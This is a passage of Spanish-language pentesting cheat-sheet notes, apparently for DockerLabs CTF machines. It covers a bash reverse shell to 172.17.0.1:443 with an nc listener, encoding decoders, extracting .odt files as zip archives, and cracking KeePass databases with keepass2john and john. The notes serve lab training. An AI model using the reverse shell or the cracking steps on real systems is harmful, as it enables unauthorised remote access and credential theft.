y si aún con el comano script no funciona ejecutamos el bash -c

bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'

Máquina kali:

nc -lvnp 443 

y listo hemos accedido con una bash más cómoda.

-------------------------------------------------------------------------------

## 16.- tipos de encriptación

base64 ->
base85 -> https://www.dcode.fr/ascii-85-encoding
descifrador Ook! -> https://www.dcode.fr/ook-language

-------------------------------------------------------------------------------

## 17.- Los archivos .odt se pueden pasar a .zip y desconprimirlos con unzip

mv importante_octopus.odt importante_octopus.zip

unzip importante_octopus.zip

ejemplo máquina fileception - dockerlabs:

https://github.com/albertomarcostic/DockerLabs-WriteUps/blob/main/M%C3%A1quina%20Fileception.md

-------------------------------------------------------------------------------

## 18.- Archivos .kdbx con contraseña:

herramientas para abrirlo:

keepass2

keepass2 penguin.kdbx

keepassxc

keepassxc penguin.kdbx

también podemos abrirlo online:

https://app.keeweb.info/

crackear:

keepass2john penguin.kdbx > hash.txt

john hash.txt /usr/wordlists/rockyou.txt

-------------------------------------------------------------------------------

## 19.- A veces hay ocasiones en que tenemos que colocar un dominio con una ip en el /etc/hosts
